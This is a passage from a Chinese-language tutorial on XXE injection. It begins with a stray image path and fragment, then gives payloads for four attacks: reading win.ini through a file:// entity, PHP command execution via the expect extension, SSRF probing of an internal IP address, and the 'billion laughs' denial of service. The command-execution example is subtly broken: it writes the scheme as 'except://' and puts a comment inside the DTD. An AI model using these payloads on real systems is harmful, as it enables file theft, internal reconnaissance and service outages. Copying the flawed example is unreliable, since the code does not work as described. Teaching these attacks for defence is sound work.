 恶意引入外部实体(4)
 ```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  xxe SYSTEM "file:///c:/windows/win.ini" >]>
<foo>&xxe;</foo>
 ```

---
### 危害二：命令执行

php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。

```php
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "except://ls"> # id
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

该CASE是在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。


---
 ### 危害三：内网探测/SSRF
由于xml实体注入攻击可以利用http://协议，也就是可以发起http请求。可以利用该请求去探查内网，进行SSRF攻击。

 ```php
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "http://192.168.1.1:80/">
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
 ```

---
### 危害四：DDOS
```xml
<?xml version="1.0"?>
 <!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 ]>
 <lolz>&lol9;</lolz>

```
上面样例代码2中的XXE漏洞攻击就是著名的’billion laughs’ 攻击。